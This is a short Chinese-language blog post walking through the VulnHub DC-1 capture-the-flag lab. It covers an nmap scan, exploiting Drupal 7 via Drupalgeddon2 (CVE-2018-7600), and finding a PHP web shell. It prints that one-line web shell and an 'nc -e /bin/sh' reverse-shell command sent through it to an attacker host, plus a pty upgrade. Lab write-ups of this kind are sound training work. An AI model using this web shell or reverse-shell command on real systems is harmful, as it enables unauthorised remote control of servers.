 ```yaml
---
layout: post
title: VulnHub-DC1
date: 2022-03-20
Author: LuYee6813
tags: [vulnhub]
toc: true
---
```



## 1. 尋找DC-1靶機
```linux
$ nmap 10.0.2.4 -A -p-
```

## 2. 發現有port 80 -> 直接瀏覽網頁
![](https://i.imgur.com/I1N1wgZ.png)

## 3. 使用wappalyzer得知使用Drupal 7
![](https://i.imgur.com/B8nHsAB.png)

## 4. 搜尋已知Exploit來取得RCE 
- CVE-2018-7600
> Exploit:https://github.com/dreadlocked/Drupalgeddon2

## 5. ls -> 發現flag1
![](https://i.imgur.com/4pA9CSv.png)

## 6. 發現有shell.php 
```php    
<?php if( isset( $_REQUEST['c'])) { system( $_REQUEST['c'] . ' 2>&1 ');}>
```

## 7. 使用nc 監聽取回reverse shell(python pty)
```linux
http://10.0.2.4/shell.php?c=nc%20-e%20%2Fbin%2Fsh%2010.0.2.15%208080
nc -e /bin/sh 10.0.2.15 8080
python -c "import pty;pty.spawn('/bin/bash')"
```



